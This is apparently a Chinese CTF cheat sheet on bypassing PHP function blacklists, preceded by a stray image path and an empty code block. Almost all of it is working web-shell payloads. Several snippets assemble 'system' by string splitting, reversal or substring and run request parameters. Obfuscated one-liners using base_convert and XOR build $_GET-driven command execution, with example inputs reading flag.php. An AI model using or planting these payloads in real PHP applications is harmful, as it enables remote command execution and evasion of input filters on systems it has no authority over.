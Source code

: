 ```python
```


 
 
 

## 

## 绕过函数黑名单

参考https://blog.csdn.net/miuzzx/article/details/109537262

可以用于绕过函数正则匹配

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```

参考https://johnfrod.top/ctf/利用数学函数构造命令执行/

```php
<?php $pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos});?>  

abs=system&acos=ls
// $pi=_GET;($_GET[abs])($_GET[acos])    ==> $pi=_GET;(system)(ls)
//得到 _GETflag.php index.php
<?php $pi=base_convert;$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1};?>
HEADER:    1:cat flag.php
   
<?php $pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1});?>


GET传参    0=system&1=cat flag.php
//$pi=_GET;$pi=$_GET;$_GET[0]($_GET[1])&0=system&1=cat flag.php     ==> system(cat flag.php)
```